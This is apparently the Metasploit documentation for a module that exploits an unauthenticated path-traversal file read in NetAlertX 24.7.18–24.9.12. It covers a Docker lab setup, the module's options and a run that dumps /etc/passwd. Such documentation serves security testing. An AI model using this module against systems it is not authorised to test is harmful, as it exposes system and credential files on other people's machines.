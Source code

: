 ## Vulnerable Application


An attacker can read any file through log functionality with no authentication.

The vulnerability affects:

    * v24.7.18 <= NetAlertX <= v24.9.12

## Verification Steps

### Installation

1. `docker pull jokobsk/netalertx:24.9.12`

2. docker run
```bash
docker run --rm --network=host \
  -v /tmp/netalertx:/app/config \
  -v /tmp/netalertx:/app/db \
  -e TZ=Europe/Berlin \
  -e PORT=20211 \
  jokobsk/netalertx:24.9.12
```

### Verification

1. Install the application
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/netalertx_file_read`
4. Do: `run rhost=<rhost>`
5. You should get the contents of the specified file.

## Options

- `RHOSTS`: target host
- `RPORT`: target port, default 20211
- `FILEPATH`: path to the required file
- `DEPTH`: number of `../` to be prepended to `FILEPATH`

## Scenarios

```
msf > use auxiliary/scanner/http/netalertx_file_read 
msf auxiliary(scanner/http/netalertx_file_read) > show options

Module options (auxiliary/scanner/http/netalertx_file_read):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DEPTH     5                yes       Traversal Depth (to reach the root folder)
   FILEPATH  /etc/passwd      yes       The path to the file to read
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.h
                                        tml
   RPORT     20211            yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   THREADS   1                yes       The number of concurrent threads (max one per host)
   VHOST                      no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf auxiliary(scanner/http/netalertx_file_read) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf auxiliary(scanner/http/netalertx_file_read) > run
[*] Received data:
[*] root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
catchlog:x:100:101:catchlog:/:/sbin/nologin
nginx:x:101:102:nginx:/var/lib/nginx:/sbin/nologin

[*] Stored results in netalert_result.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/netalertx_file_read) > 


```


